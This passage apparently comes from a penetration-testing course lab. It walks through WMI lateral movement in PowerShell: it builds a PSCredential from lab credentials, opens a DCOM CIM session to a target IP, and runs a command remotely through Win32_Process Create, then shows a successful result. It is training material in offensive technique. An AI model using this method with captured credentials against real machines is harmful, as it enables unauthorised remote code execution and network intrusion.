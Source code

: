 Translating this attack into PowerShell syntax requires a few extra details.

First, We need to create a [_PSCredential_](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object that will store our session username and password.

To do that, we will first store the username and password in variables. Then, we will secure the password via the **ConvertTo-SecureString** cmdlet. Finally, we'll create a new PSCredential object with the username variable and **secureString** object.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

> Listing 2 - Creating the PSCredential object in PowerShell

Now that we have our PSCredential object, we need to create a _Common Information Model_ (CIM) via the [_New-CimSession_](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **\-ComputerName** and supply the PSCredential object (**\-Credential $credential**) along with the session options (**\-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

> Listing 3 - Creating a new CimSession

As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32\_Process** to the _ClassName_ and **Create** to the _MethodName_. To send the argument, we wrap them in **@{CommandLine =$Command}**.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

> Listing 4 - Invoking the WMI session through PowerShell

To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```
